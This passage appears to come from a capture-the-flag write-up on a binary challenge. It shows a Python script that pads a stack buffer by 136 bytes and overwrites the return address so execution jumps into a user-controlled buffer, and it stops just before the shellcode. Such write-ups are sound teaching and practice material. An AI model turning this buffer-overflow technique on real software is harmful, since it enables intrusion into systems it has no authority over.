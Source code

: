 Next, deciding where to redirect program flow to. We have the user-controlled buffer `ans` from earlier which is perfect for our needs
Sidenote: There is a function in the binary named `kids_are_not_allowed_here` which contained a `CALL` instruction on the `ans` memory location but this was not needed as we can jump straight to `ans` with our buffer overflow.

I wrote a small python script which would generate the required amount of padding and then appended the address of the `ans` buffer, 0x602040, accounting for little-endianness

```python
import sys
IP_OFFSET = 136
buf = "a" * IP_OFFSET
ip = "\x40\x20\x60\x00\x00\x00\x00"
sys.stdout.write(buf + ip)
sys.stdout.flush
```

Testing this leads to another segfault, but this time we segfault on the memory address 0x60204c, which is inside the `ans` buffer and demonstrates successful program execution redirection! Onto writing our shellcode...

![Successful redirection](/images/kindergarten-redirection.png)

---
